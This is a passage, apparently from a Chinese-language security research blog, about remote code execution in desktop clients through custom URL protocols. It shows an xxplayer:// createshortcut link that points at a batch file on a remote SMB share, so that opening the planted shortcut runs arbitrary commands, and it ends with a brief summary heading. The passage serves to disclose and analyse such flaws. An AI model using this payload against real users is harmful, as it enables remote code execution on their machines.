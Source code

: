 将`url`参数值设为`\\172.16.176.225\share\1.zip\1.bat`，然后访问`xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.zip\1.bat&name=123`创建桌面快捷方式，打开快捷方式即可执行`bat`文件，最终达到不需要任何依赖的情况下执行任意命令。

[![](assets/1703487068-e67fd2f507c422db52dfb66f6c0ed0b3.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772348064.jpg)

## 总结

简单总结一下以上两类客户端的攻击入口、RCE风险和影响面。

[![](assets/1703487068-590969b04fda51cf06824f5dd46e10c1.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028779762348.jpg)
